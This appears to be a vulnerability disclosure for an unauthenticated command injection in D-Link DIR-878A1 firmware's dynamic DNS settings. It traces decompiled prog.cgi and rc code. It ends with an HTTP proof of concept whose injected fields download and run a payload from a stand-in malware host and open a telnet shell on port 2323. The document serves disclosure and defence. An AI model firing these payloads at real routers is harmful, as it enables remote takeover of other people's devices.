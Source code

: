 # Command Injection Vulnerability in `SetDynamicDNSSettings`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | D-Link DIR-878A1 Router                                      |
| Firmware Version     | **FW101B04.bin** (other versions require verification)       |
| Vulnerability Type   | **Unauthenticated Command Injection**                        |
| Vulnerable Component | `prog.cgi` (parameter processing) → `rc` (command execution) |
| Prerequisites        | No authentication required (remote exploitation possible)    |

2. Exploitation Path

```c
// prog.cgi
int __fastcall sub_444CC4(int a1)
{
  ...
  if ( v6 == 1 )
  {
    ...
    v8 = webGetVarString(a1, "/SetDynamicDNSSettings/ServerAddress");
    if ( v8 )
    {
      nvram_safe_set("DDNSProvider", v8);
      v1 = webGetVarString(a1, "/SetDynamicDNSSettings/Hostname");
      if ( v1 )
      {
        nvram_safe_set("DDNS", v1);
        ...
}

// rc
int start_DDNS_ipv4()
{
  ...
  v6 = (const char *)nvram_safe_get("DDNSProvider");
  v7 = (const char *)nvram_safe_get("DDNS");
  ...
  if ( v5 == 1 )
  {
    result = *(unsigned __int8 *)v6;
    if ( *v6 )
    {
      result = *(unsigned __int8 *)v7;
      if ( *v7 )
      {
        result = (unsigned __int8)*v8;
        if ( *v8 )
        {
          result = (unsigned __int8)*v9;
          if ( *v9 )
          {
            if ( !strcmp(v6, "dyndns.org") || !strcmp(v6, "dyndns.com") )
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_system default@dyndns.org "
                "--update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v10);
            }
            else if ( !strcmp(v6, "oray.cn") || !strcmp(v6, "oray.com") )
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_server_name ddns.oray.com "
                "--dyndns_server_url /ph/update? --update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v10);
            }
            else if ( !strcmp(v6, "dlinkddns.org") || !strcmp(v6, "dlinkddns.com") )
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_system default@dlinkddns.com "
                "--update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v10);
            }
            else if ( strstr(v6, "no-ip") )
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_system default@no-ip.com "
                "--update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v10);
            }
            else
            {
              sprintf(
                v14,
                "%s -u %s -p %s -a %s --dyndns_system default@%s "
                "--update_period_sec %d &",
                v11,
                v12,
                v13,
                v7,
                v6,
                v10);
            }
            system("echo 1 > /tmp/ddnstate");
            return twsystem(v14, 1);
          }
        }
      }
    }
  }
  return result;
}
```

3. **Vulnerable Binaries:** `prog.cgi` and `rc`; the data flow traverses across these binaries.

4. 0-Day Command Injection Exploitation Path:

   - In `prog.cgi`, line 8: `v8 = webGetVarString(a1, "/SetDynamicDNSSettings/ServerAddress")` receives user input, which is temporarily stored via line 11: `nvram_safe_set("DDNSProvider", v8)`. In `rc`, line 23: `v6 = (const char *)nvram_safe_get("DDNSProvider")` retrieves the stored value, which is concatenated and passed to line 102: `return twsystem(v14, 1)`, resulting in command injection. The current logic only compares `v6` against a specific string, but this does not prevent command injection.

   - In `prog.cgi`, line 12: `v1 = webGetVarString(a1, "/SetDynamicDNSSettings/Hostname")` receives user input, which is temporarily stored via line 15: `nvram_safe_set("DDNS", v1)`. In `rc`, line 24: `v7 = (const char *)nvram_safe_get("DDNS")` retrieves the stored value, which is concatenated and passed to line 102: `return twsystem(v14, 1)`, resulting in command injection.

5. Proof of Concept (PoC) for Reproducing the Vulnerability:

```http
POST /cgi-bin/prog.cgi HTTP/1.1
Host: 192.168.0.1
Content-Type: application/xml

<!-- ServerAddress Injection -->
<SetDynamicDNSSettings>
    <ServerAddress>attacker.com'; wget http://malware.site/exp -O /tmp/exp; 
    sh /tmp/exp;'</ServerAddress>
    <Hostname>normal.host</Hostname>
</SetDynamicDNSSettings>

<!-- Hostname Injection -->
<SetDynamicDNSSettings>
    <ServerAddress>dlinkddns.com</ServerAddress>
    <Hostname>mal.host; killall telnetd; telnetd -l /bin/sh -p 2323;</Hostname>
</SetDynamicDNSSettings>
```